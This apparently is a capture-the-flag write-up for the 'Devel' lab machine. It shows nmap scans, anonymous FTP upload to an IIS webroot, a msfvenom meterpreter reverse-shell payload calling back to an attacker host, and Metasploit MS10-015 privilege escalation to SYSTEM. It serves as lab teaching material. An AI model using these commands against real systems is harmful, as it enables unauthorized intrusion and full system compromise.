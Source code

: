 ```yaml
---
title: Devel
published: true
layout: post
---
```


<br />

---------------
Devel, while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits.  

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/Ie03IcEDoi0?si=PrRoQQaHvXo0S6ts" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.10.5 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.10.5 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```

![](/assets/Devel/1.png)

<br />
<br />
<br />

There are **2 open ports**:
+ **21/tcp**
+ **80/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.5 -p 21,80 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```

![](/assets/Devel/2.png)

<br />
<br />
<br />

We can see that the services correspond to:
+ **21/tcp Microsoft ftpd**
+ **80/tcp Microsoft IIS httpd 7.5**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.5 -p 21,80 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```
<br />

This scan didn't return any relevant information.

<br />

------

<br />
### Foothold

This machine is quite easy, we only have to perform some good enumeration and think logically. **FTP will be our best friend** in this machine.

<br />

The first thing that we will notice when checking the performed enumeration is that **FTP allows anonymous login**. We can connect to it by running `ftp anonymous@10.10.10.5` and **providing no password** when asked to. There is no relevant information in these server, however, we can see some files related to IIS, which is found in the web server:

<br />

![](/assets/Devel/3.png)

<br />
<br />
<br />

With this information, we can assume that this directory contains the **files that the web server is representing**, so we can try uploading a test file to see if it works:

![](/assets/Devel/4.png)

<br />

![](/assets/Devel/5.png)

<br />
<br />
<br />

We can now try to see if this **file is accessible from the web server**:

```bash
curl http://10.10.10.5/test.aspx
```

![](/assets/Devel/6.png)

<br />
<br />
<br />

Great, it did work, now we only have to **upload a reverse shell** to gain access to this machine, let's create the **reverse shell**, we just have to **visit the site for the reverse shell to work**:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.9 LPORT=4444 --platform windows -f aspx -o revshell.aspx
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.10.16.9; set LPORT 4444; run"
curl http://10.10.10.5/revshell.aspx #In another tab
```

![](/assets/Devel/7.png)

<br />

![](/assets/Devel/8.png)

<br />
<br />
<br />

Great, we have obtained a reverse shell as a non-privileged user, however we **can not access the flags yet**.

<br />

---

<br />

### Privilege Escalation

From here, we can start enumerating the machine to see how we can escalate privileges.

<br />

We have some **sensitive privileges** (*SeImpersonatePrivilege* and *SeAssignPrimaryTokenPrivilege*), however I tried using some types of Potatoes but it didn't work.

![](/assets/Devel/9.png)

<br />
<br />
<br />

We can use the **exploit suggester** to see if there is any kernel exploit that we can leverage, so let's **background the Metasploit session** and run it, we will find :

```bash
use post/multi/recon/local_exploit_suggester
set session 1
run
```

![](/assets/Devel/10.png)

<br />
<br />
<br />

We can start trying these exploits one by one, until we end up trying the **MS10-015**, which works:

```bash
use exploit/windows/local/ms10_015_kitrap0d
set session 1
set lhost tun0
run
```

![](/assets/Devel/11.png)

<br />
<br />
<br />

Great, we have **NT AUTHORITY\SYSTEM privileges**, let's print the flags to finish the machine:

```cmd
shell
type C:\Users\babis\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```

![](/assets/Devel/12.png)

<br />
<br />
<br />
